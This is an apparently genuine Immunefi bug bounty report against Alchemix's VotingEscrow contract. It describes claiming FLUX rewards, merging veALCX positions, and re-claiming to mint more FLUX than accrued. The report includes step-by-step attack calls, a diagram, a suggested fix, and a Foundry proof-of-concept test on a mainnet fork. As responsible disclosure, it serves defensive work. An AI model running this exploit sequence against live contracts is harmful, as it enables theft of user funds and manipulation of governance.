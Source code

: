 
# Stealing FLUX by claiming, then merging positions and re-claiming.

Submitted on Mon May 06 2024 05:30:27 GMT-0400 (Atlantic Standard Time) by @infosec_us_team for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #30800

Report type: Smart Contract

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/VotingEscrow.sol

Impacts:
- Direct theft of any user funds, whether at-rest or in-motion, other than unclaimed yield
- Protocol insolvency
- Manipulation of governance voting result deviating from voted outcome and resulting in a direct change from intended effect of original results

## Description
## Brief/Intro

Attackers can claim more FLUX than accrued.

## Vulnerability Details

The attack vector is easy to understand.

**ATTACK VECTOR**

1- The attacker creates 2 (or more) locks in the *VotingEscrow*.
> For the sake of simplicity let's imagine he only created 2. We'll refer to the ids of the NFTs minted as `tokenId1` and `tokenId1`

2- Move forward in time to the next epoch.

3- The attacker calls `Voter.reset(tokenId1)` and accrues rewards for his token with id `tokenId1` based on the balance of BPT he deposited when minting the NFT.

4- The attacker claims the FLUX accrued by calling `flux.claimFlux(tokenId1, amount)`

5- The attacker merges the balance inside `tokenId1` with the balance inside `tokenId2` by calling `veALCX.merge(tokenId1, tokenId2);`

6- Now that his second NFT (`tokenId2`) has the double of BPT balance inside, he calls `Voter.reset(tokenId2)` and accrues rewards for his token with id `tokenId2`.

7- The attacker now claims the inflated FLUX accrued in `tokenId2` by calling `flux.claimFlux(tokenId2, inflated_amount)`

Here's a sequence diagram:
> After creating both locks the attacker must wait until the next epoch to proceed, we omitted the "wait" step in this diagram for simplicity.
```
 ┌────────┐                                      ┌──────┐┌─────┐┌────┐
 │Attacker│                                      │veALCX││Voter││FLUX│
 └───┬────┘                                      └──┬───┘└──┬──┘└─┬──┘
     │                                              │       │     │   
     │             createLock tokenId1              │       │     │   
     │─────────────────────────────────────────────>│       │     │   
     │                                              │       │     │   
     │             createLock tokenId2              │       │     │   
     │─────────────────────────────────────────────>│       │     │   
     │                                              │       │     │   
     │       reset tokenId1 + accrue tokenId1's FLUX│       │     │   
     │─────────────────────────────────────────────────────>│     │   
     │                                              │       │     │   
     │merge the BPT balance of tokenId1 and tokenId2│       │     │   
     │─────────────────────────────────────────────>│       │     │   
     │                                              │       │     │   
     │       reset tokenId2 + accrue tokenId2's FLUX│       │     │   
     │─────────────────────────────────────────────────────>│     │   
     │                                              │       │     │   
     │                       claim all FLUX         │       │     │   
     │───────────────────────────────────────────────────────────>│   
 ┌───┴────┐                                      ┌──┴───┐┌──┴──┐┌─┴──┐
 │Attacker│                                      │veALCX││Voter││FLUX│
 └────────┘                                      └──────┘└─────┘└────┘

```

If instead of doing it with 2 tokens, it is done with 3, after the last step the attacker can merge `tokenId2` with `tokenId3`, reset 3, and claim even more FLUX (a value relative to the full balance of `tokenId1` + the balance of `tokenId2` + the balance of `tokenId3`).

## Recommendation

When merging the balance of `tokenId1` into `tokenId2`, make sure to claim all `tokenId2`'s rewards if we are in a new epoch, before increasing the internal balance of `tokenId2`.

## Impact Details

FLUX can be used to boost the voting power of an NFT holder or as an ERC20 token that can be traded in the open market.

The consequences of gaming the system to claim more FLUX than accrued are:
- Protocol insolvency.
- Manipulation of governance voting.
- Direct theft of funds.
        
## Proof of concept
## Proof of Concept

Remember to run the code with the correct block number (the one used in your tests: 17133822)

We run the test executing:
```
forge test --fork-url https://eth-mainnet.alchemyapi.io/v2/{API_KEY} --match-test testFluxAccrualAndMerge --fork-block-number 17133822 -vv
```
> Replace {API_KEY} with your API key.

To test how much FLUX the user should have accrued, add a comment to the "`veALCX.merge(tokenId1, tokenId2);`"

The code for the test:
```

    function testFluxAccrualAndMerge() public {

        address user = address(0x0123);

        uint256 tokenId1 = createVeAlcx(user, TOKEN_1, MAXTIME, true);
        uint256 tokenId2 = createVeAlcx(user, TOKEN_1, MAXTIME, true);

        hevm.startPrank(user);

        voter.reset(tokenId1);
        voter.reset(tokenId2);

        hevm.warp(newEpoch());
        voter.distribute();

        console2.log("balance of token1", veALCX.balanceOfTokenAt(tokenId1, block.timestamp));
        console2.log("balance of token2", veALCX.balanceOfTokenAt(tokenId2, block.timestamp));

        voter.reset(tokenId1);

        flux.claimFlux(tokenId1, flux.getUnclaimedFlux(tokenId1));

        veALCX.merge(tokenId1, tokenId2);

        voter.reset(tokenId2);

        flux.claimFlux(tokenId2, flux.getUnclaimedFlux(tokenId2));
        
        console2.log("balance of flux", flux.balanceOf(user));

        hevm.stopPrank();

    }

```